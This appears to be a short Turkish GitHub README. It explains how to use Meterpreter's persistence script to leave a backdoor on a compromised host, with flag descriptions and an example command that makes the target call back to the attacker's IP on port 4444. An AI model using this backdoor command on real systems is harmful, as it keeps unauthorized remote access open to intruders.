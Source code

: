 # persistence
Meterpreter Persistence Kullanımı

Meterpreter oturumuzun olduğunuz servis bir sonraki denemenizde kapalıysa ne güzel oturumum vardı. Şimdi yok demek yerine
meterpreter oturumumuzda  persistence.rb betiği çalıştırarak kendinize bir arkakapı bırakabilirsiniz. Meterpreter oturumumuzda
run persistence diyerek gerekli parametler verilerek oluşturulur.
Parametreler
-U : Kullanıcı oturumu açtığında otamatik olarak başlatma
-S : Sistem açılılırken otomatik olarak başlatma
-i : Zaman aralığı belirtmek için kullanılır.
-p : Dinleyeceğimiz , bağlanacağımız port belirtmek için kullanılır.
-r : Bağlanacağımız ip adresi. Aslında kendi ip adresimiz. Hedef bilgisayarda çalıştırdığımız için remote olarak kullanıyoruz.

Örnek kullanım:
run persistence -U -i 5 -p 4444 -r 192.168.1.4
Kullanıcı oturum açtığında 5 saniye aralıklarla 192.168.1.4 adresinde bulunan makinenin 4444 portuna istek yap anlamındadır.

